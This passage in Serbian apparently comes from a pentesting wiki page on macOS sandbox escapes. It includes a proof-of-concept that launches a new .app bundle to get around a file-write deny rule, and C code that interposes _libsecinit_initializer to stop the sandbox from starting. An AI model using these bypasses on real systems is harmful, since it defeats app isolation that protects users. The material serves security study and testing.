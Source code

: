 Napomena da **čak i shellcodes** u ARM64 treba da budu povezani u `libSystem.dylib`:
```bash
ld -o shell shell.o -macosx_version_min 13.0
ld: dynamic executables or dylibs must link with libSystem.dylib for architecture arm64
```
### Ne nasledjene restrikcije

Kao što je objašnjeno u **[bonus ovog izveštaja](https://jhftss.github.io/A-New-Era-of-macOS-Sandbox-Escapes/)**, restrikcija sandboxes kao:
```
(version 1)
(allow default)
(deny file-write* (literal "/private/tmp/sbx"))
```
može biti zaobiđeno novim procesom koji se izvršava, na primer:
```bash
mkdir -p /tmp/poc.app/Contents/MacOS
echo '#!/bin/sh\n touch /tmp/sbx' > /tmp/poc.app/Contents/MacOS/poc
chmod +x /tmp/poc.app/Contents/MacOS/poc
open /tmp/poc.app
```
Međutim, naravno, ovaj novi proces neće naslediti ovlašćenja ili privilegije od roditeljskog procesa.

### Ovlašćenja

Imajte na umu da čak i ako su neke **akcije** možda **dozvoljene od strane sandbox-a** ako aplikacija ima specifično **ovlašćenje**, kao u:
```scheme
(when (entitlement "com.apple.security.network.client")
(allow network-outbound (remote ip))
(allow mach-lookup
(global-name "com.apple.airportd")
(global-name "com.apple.cfnetwork.AuthBrokerAgent")
(global-name "com.apple.cfnetwork.cfnetworkagent")
[...]
```
### Interposting Bypass

Za više informacija o **Interpostingu** proverite:


{{#ref}}
../../../macos-proces-abuse/macos-function-hooking.md
{{#endref}}

#### Interpost `_libsecinit_initializer` da sprečite sandbox
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
void (*overriden__libsecinit_initializer)(void);
void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```

